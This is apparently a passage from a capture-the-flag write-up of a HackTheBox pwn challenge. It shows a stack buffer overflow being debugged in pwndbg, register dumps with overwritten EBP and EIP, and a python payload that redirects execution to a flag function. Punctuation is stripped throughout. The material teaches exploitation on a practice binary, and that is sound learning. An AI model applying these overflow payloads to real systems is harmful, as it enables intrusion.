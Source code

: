 Prior to piping the contents of eip flag into the binary  a breakpoint was set at 0x08049246 to allow further investigation into the EBP register 

pwndbg  b  0x08049246                                                                  
Breakpoint 1 at 0x8049246

Finally  the malicious string can be run 

pwndbg  r   eip flag  
Starting program   home 0xd4y business hackthebox challenges pwn easy you know vuln   eip flag  
You know who are 0xDiablos   
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Breakpoint 1  0x08049246 in flag   LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA  
                                      REGISTERS                                       EAX  0x0EBX  0x804c000   GLOBAL OFFSET TABLE       0x804bf10   DYNAMIC      add    dword ptr  eax   eax  
ECX  0x0EDX  0xfbad2498EDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0xffffd01c      AAAA   
ESP  0xffffcfc4     0x41414141   AAAA    
EIP  0x8049246  flag 100      cmp    dword ptr  ebp   8   0xdeadbeef
   endhighlight   

As expected  the breakpoint at flag 100 was hit  Looking at ebp 0x8  it can be observed that it was not overwritten 

   highlight bash   
pwndbg  x x  ebp 0x8  
0xffffd024      0xffffd0f4
   endhighlight   

Upon looking at the first 16 bytes of the EBP register  an interesting circumstance can be noticed 

   highlight bash   
pwndbg  x 4x  ebp  
0xffffd01c      0x41414141      0x00000000      0xffffd0f4      0xffffd0fc
   endhighlight   

At exactly  ebp  the junk bytes that are present in the malicious string can be seen  Following that is a succession of eight zeroes followed by the value of  ebp 0x8 and  ebp 0xc  This succession of zeroes is particularly interesting as it is not clear what it relates to  Modifying the malicious string by adding four B s to the end of it and piping it into the program  reveals an interesting behavior within the binary 

   highlight bash   
   0xd4y Writeup     business hackthebox challenges pwn easy you know   
      python  c  print  A  188    xe2x91x04x08   BBBB     eip flag

pwndbg  r   eip flag                                                                    
Starting program   home 0xd4y business hackthebox challenges pwn easy you know vuln   eip flag  
You know who are 0xDiablos                                                             
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBB                          
  
